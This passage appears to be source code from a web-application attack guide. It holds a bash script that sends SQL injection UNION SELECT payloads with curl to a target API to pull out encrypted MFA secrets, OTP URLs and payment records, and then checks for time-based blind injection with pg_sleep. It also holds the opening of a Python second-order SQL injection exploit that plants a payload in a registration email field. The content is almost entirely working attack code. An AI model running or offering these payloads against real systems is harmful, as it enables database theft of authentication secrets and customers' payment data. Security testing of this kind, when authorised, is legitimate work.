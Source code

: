 ```bash
echo "[+] Extracting encrypted MFA secrets..."
MFA_PAYLOAD="test' UNION SELECT admin_user_id,secret_encrypted,otpauth_url,verified_at::text,$(for j in $(seq 5 $COLUMN_COUNT); do echo -n "NULL,"; done) FROM admin_mfa_enrollments--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${MFA_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq '.' > extracted_mfa_secrets.json

# Extract credit purchase history
echo ""
echo "[+] Extracting payment information..."
PAYMENT_PAYLOAD="test' UNION SELECT purchase_id,user_id,amount_dollars::text,stripe_charge_id,$(for j in $(seq 5 $COLUMN_COUNT); do echo -n "NULL,"; done) FROM credit_purchases--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${PAYMENT_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq '.' > extracted_payments.json

# Time-based blind SQL injection
echo ""
echo "[+] Testing time-based blind SQL injection..."
START_TIME=$(date +%s)
SLEEP_PAYLOAD="test' AND pg_sleep(5)--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${SLEEP_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" > /dev/null
END_TIME=$(date +%s)
DURATION=$((END_TIME - START_TIME))

if [ $DURATION -ge 5 ]; then
  echo "[VULN] Time-based blind SQLi confirmed! (${DURATION}s delay)"
fi

echo ""
echo "[+] Attack complete. Results saved:"
echo "  - table_names.txt"
echo "  - extracted_users.json"
echo "  - extracted_admins.json"
echo "  - extracted_mfa_secrets.json"
echo "  - extracted_payments.json"
```

**Advanced Exploitation: Second-Order SQL Injection**
```python
#!/usr/bin/env python3
# second_order_sqli.py - Exploit stored SQL injection

import requests
import json
import time

TARGET_API = "https://api.example.com"
ADMIN_TOKEN = "eyJhbGci..."

def register_malicious_user(email_payload):
    """Register user with SQL injection in email field"""
    response = requests.post(
        f"{TARGET_API}/auth/register",
        json={
            "email": email_payload,
            "password": "Test123!"
        }
    )
    return response.json()

def trigger_second_order_sqli():
    """Trigger second-order SQL injection via admin search"""
    
    # Phase 1: Store malicious payload in database
```